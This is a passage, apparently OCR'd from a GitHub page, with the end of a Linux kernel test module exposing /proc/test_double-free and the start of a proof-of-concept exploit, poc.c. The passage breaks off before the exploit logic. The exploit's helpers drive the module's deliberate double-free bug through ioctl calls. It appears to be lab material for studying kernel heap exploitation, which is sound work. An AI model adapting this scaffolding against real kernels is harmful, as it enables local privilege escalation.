 ```c
					S_IWOTH, NULL, &test_ops);
	if (!test_entry) {
		pr_err("proc_create err\n");
		return -1;
	}


	return 0;
}

static void __exit test_exit(void)
{
	proc_remove(test_entry);
	return;
}

MODULE_LICENSE("GPL");
module_init(test_init);
module_exit(test_exit);
```
poc.c
```c
#define	_GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <linux/tty.h>
#include <termios.h>
#include <syscall.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/wait.h>
#include <pthread.h>

static char *target_path = "/proc/test_double-free";
#define	fd_cnt 1
#define	alloc_times 0x100
int fd[fd_cnt];

int open_target_file(void)
{
	return open(target_path, O_RDWR);
}

int alloc_8192_buf(int fd)
{
	return ioctl(fd, 0xa1, NULL);
}

int add_same_buf(int fd)
{
	return ioctl(fd, 0xa2, NULL);
}

int do_double_free(int fd)
{
```